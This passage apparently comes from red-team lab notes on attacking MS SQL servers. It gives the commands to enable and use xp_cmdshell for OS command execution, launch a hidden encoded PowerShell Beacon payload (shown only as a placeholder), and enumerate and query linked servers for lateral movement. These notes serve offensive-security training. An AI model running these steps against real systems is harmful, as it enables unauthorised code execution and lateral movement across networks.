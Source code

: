 ^a8479b

The **xp_cmdshell** procedure can be used to execute shell commands on the SQL server.  `Invoke-SQLOSCmd` from PowerUpSQL provides a simple means of using it.
```
beacon> powershell Invoke-SQLOSCmd -Instance "srv-1.dev.cyberbotic.io,1433" -Command "whoami" -RawResults

dev\svc_mssql
```

To execute manually (in Heidi/mssqlclient.py), try:
```
EXEC xp_cmdshell 'whoami';
```

If you get an error, try enabling xp_cmdshell (disable it by changing xp_cmdshell value to 0)
```
sp_configure 'Show Advanced Options', 1; RECONFIGURE; sp_configure 'xp_cmdshell', 1; RECONFIGURE;
```

With command shell execution, spawning a Beacon can be as easy as a PowerShell one-liner.
```
EXEC xp_cmdshell 'powershell -w hidden -enc <blah>';
```

There is a SQL command length limit that will prevent you from sending large payloads directly in the query, and the SQL servers cannot reach your Kali IP directly. Reverse Port Forwards and Pivot Listeners are your friends.

### Lateral Movement

^db515f

SQL Servers have a concept called "Linked Servers", which allows a database instance to access data from an external source. MS SQL supports multiple sources, including other MS SQL Servers. These can also be practically anywhere - including other domains, forests or in the cloud.

We can discover any links that the current instance has:

```
SELECT * FROM master..sysservers;
```

We can query this remote instance over the link using **OpenQuery**:

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```

That includes being able to query its configuration (e.g. xp_cmdshell).

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'SELECT * FROM sys.configurations WHERE name = ''xp_cmdshell''');
```

If xp_cmdshell is disabled, you can't enable it by executing `sp_configure` via OpenQuery. If **RPC Out** is enabled on the link (which is not the default configuration), then you can enable xpcmdshell using the following syntax:
